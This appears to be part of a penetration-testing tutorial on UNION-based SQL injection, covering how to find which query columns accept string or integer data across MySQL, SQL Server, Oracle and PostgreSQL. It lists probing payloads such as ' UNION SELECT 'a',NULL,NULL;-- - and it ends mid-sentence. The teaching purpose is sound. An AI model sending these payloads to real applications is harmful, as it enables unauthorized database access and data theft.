

2. Identify Field Types
Identify Field Types
DBMS and Type EnforcingMost of the DBMSs perform type enforcing on the queries. This means that with UNION statements we cannot perform a UNION between an integer and a string.
Depending on how the DBMS handles data types, we are required to provide an exact match of the data types for each column in the two SELECT statements:
| DBMS | Type Enforcing |
|---|
| MySQL | No |
| MS SQL Server | Yes |
| Oracle | Yes |
| PostgreSQl | Yes |
Therefore the following queries usually in most DBMSs except MySQL
will trigger an error:
◇
SELECT 1 UNION 'a';
◇
SELECT ‘a’ UNION 1;
Identify Field Types of the columnsWe are interested in the field of type
string because we can insert here commands like: @@version, user_name(),...
For a complete list of commands you can use the
cheat sheets of pentestmonkey•
In MySQL:
Note: If we are on MySQL the Type Enforcing is not important as seen in the table above
◇
' UNION SELECT 'a',NULL,NULL;-- - ◇
' UNION SELECT 1,NULL,NULL;-- - ◇
' UNION SELECT NULL,'a',NULL;-- - ◇
' UNION SELECT NULL,1,NULL;-- - ◇
' UNION SELECT NULL,NULL,'a';-- - ◇
' UNION SELECT NULL,NULL,1;-- - ◇
...•
In MS SQL Server, Oracle and PostgreSQL:
Depending if the SELECT statement is an
integer or a
string, we will use for the UNION column respectively an
integer or a
string
So if we have determined that we have 3 columns from the previous chapter we have to submit:
◇ If the
SELECT statement hold string data.
Probe each column to test which one can hold string data ▪
' UNION SELECT 'a',NULL,NULL;-- - ▪
' UNION SELECT NULL,'a',NULL;-- - ▪
' UNION SELECT NULL,NULL,'a';-- - ▪
... ◇ If the
SELECT statement hold integer data.
Probe each column to test which one can hold integer data ▪
' UNION SELECT 1,NULL,NULL;-- - ▪
' UNION SELECT NULL,1,NULL;-- - ▪
' UNION SELECT NULL,NULL,1;-- - ▪
...Not compatibleIf the
data type of a column is not compatible with the injected data, the query will cause a database error, such this one:
Conversion failed when converting the varchar value 'a' to data type int.CompatibleIf
we have a result instead will look like this
